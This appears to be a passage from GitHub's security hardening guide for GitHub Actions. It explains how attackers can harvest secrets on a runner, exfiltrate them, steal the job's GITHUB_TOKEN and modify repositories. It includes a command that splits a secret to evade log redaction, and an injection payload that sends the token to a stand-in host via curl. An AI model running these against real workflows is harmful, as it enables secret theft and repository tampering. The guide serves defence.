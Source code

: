 - If the secret or token is set to an environment variable, it can be directly accessed through the environment using `printenv`.
- If the secret is used directly in an expression, the generated shell script is stored on-disk and is accessible.
- For a custom action, the risk can vary depending on how a program is using the secret it obtained from the argument:

  ```yaml
  uses: fakeaction/publish@v3
  with:
      key: ${{ secrets.PUBLISH_KEY }}
  ```

Although GitHub Actions scrubs secrets from memory that are not referenced in the workflow (or an included action), the `GITHUB_TOKEN` and any referenced secrets can be harvested by a determined attacker.

### Exfiltrating data from a runner

An attacker can exfiltrate any stolen secrets or other data from the runner. To help prevent accidental secret disclosure, GitHub Actions [automatically redact secrets printed to the log](/actions/security-guides/using-secrets-in-github-actions#accessing-your-secrets), but this is not a true security boundary because secrets can be intentionally sent to the log. For example, obfuscated secrets can be exfiltrated using `echo ${SOME_SECRET:0:4}; echo ${SOME_SECRET:4:200};`. In addition, since the attacker may run arbitrary commands, they could use HTTP requests to send secrets or other repository data to an external server.

### Stealing the job's `GITHUB_TOKEN`

It is possible for an attacker to steal a job's `GITHUB_TOKEN`. The GitHub Actions runner automatically receives a generated `GITHUB_TOKEN` with permissions that are limited to just the repository that contains the workflow, and the token expires after the job has completed. Once expired, the token is no longer useful to an attacker. To work around this limitation, they can automate the attack and perform it in fractions of a second by calling an attacker-controlled server with the token, for example: `a"; set +e; curl http://example.com?token=$GITHUB_TOKEN;#`.

### Modifying the contents of a repository

The attacker server can use the GitHub API to [modify repository content](/actions/security-guides/automatic-token-authentication#permissions-for-the-github_token), including releases, if the assigned permissions of `GITHUB_TOKEN` [are not restricted](/actions/security-guides/automatic-token-authentication#modifying-the-permissions-for-the-github_token).

## Considering cross-repository access

GitHub Actions is intentionally scoped for a single repository at a time. The `GITHUB_TOKEN` grants the same level of access as a write-access user, because any write-access user can access this token by creating or modifying a workflow file, elevating the permissions of the `GITHUB_TOKEN` if necessary. Users have specific permissions for each repository, so allowing the `GITHUB_TOKEN` for one repository to grant access to another would impact the GitHub permission model if not implemented carefully. Similarly, caution must be taken when adding GitHub authentication tokens to a workflow, because this can also affect the GitHub permission model by inadvertently granting broad access to collaborators.
